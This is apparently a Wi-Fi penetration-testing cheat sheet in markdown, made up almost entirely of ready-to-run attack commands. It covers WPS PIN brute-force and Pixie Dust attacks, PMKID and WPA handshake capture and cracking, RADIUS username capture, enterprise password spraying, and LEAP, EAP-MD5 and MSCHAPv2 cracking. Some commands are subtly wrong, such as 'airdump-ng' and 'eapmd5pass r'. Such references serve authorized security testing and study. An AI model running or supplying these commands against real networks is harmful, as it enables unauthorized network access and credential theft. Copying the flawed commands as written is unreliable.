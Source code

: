 ## WEP - Obsolete Protocol
	wifite
## WPA/WPA2-Personal (PSK)
### WPS PIN Attack
#### Known PINs + Generation Algorithms
	airgeddon.sh -> Known PINs database based attack  
#### WPS PIN Bruteforce (online)  
	reaver -i mon0 -b <MAC_AP> -c <channel> -f -N [-L -d 2] -vv  
	bully mon0 -b <MAC_AP> -c <channel> -S -F -B -v 3  
#### WPS Pixie Dust Attack (offline)  
	reaver -i mon0 -b <MAC_AP> -c <channel> -K -N -vv  
	bully mon0 -b <MAC_AP> -d -v 3  
#### Null PIN attack  
	reaver -i mon0 -b <MAC_AP> -c <channel> -f -N -g 1 -vv -p ''  

### PMKID Capture (client-less) & Cracking  
hcxdumptool -i mon0 -o capture.pcapng --enable_status=1 -c <channel>  
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z capture.16800 capture.pcapng  
hashcat -m 16800 capture.16800 -a 0 -w 4 <wordlist>  
		Can be automated using:  
wifite --pmkid [--pmkid-timeout <sec>]  

### Handshake Capture (req. client) & Cracking  
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0  
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>  
Can be automated using:
wifite --wpa [-dict <wordlist>]  

## WPA/WPA2-Enterprise (MGT)  
### RADIUS Usernames Capture  
Wireshark > "Identity" field into EAP Message of type "Response, Identity"  
python crEAP.py -i mon0 -c <channel>  
=> Only possible when RADIUS Identity is sent in cleartext (EAP-MD5, LEAP, sometimes in weak config of other methods)   

### RADIUS Accounts Bruteforce / Password Spraying  
eaphammer --eap-spray --interface-pool wlan0 wlan1 wlan2 wlan3 wlan4 --essid <target_ESSID> --password <password_to_spray> --user-list <usernames_list>  

### LEAP & EAP-MD5 Handshake Capture & Cracking  
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0  
eapmd5pass r <capture> -w <wordlist>	# For EAP-MD5  
asleap -r <capture> -W <wordlist> # For LEAP (crack MSCHAPv2 challenge/response)  
=> LEAP & EAP-MD5 are old deprecated EAP methods that transmit client authentication (challenge/response) in cleartext

### MSCHAPv2 Challenge / Response Capture (via Rogue AP) & Cracking  
asleap -C <mschapv2_challenge> -R <mschapv2_response> -W <wordlist>  
=> Challenge/response colon-delimited format
=> Possible when EAP method is using MSCHAPv2 for client authentication (e.g. PEAPv0(MSCHAPv2), EAP-TTLS(MSCHAPv2))  
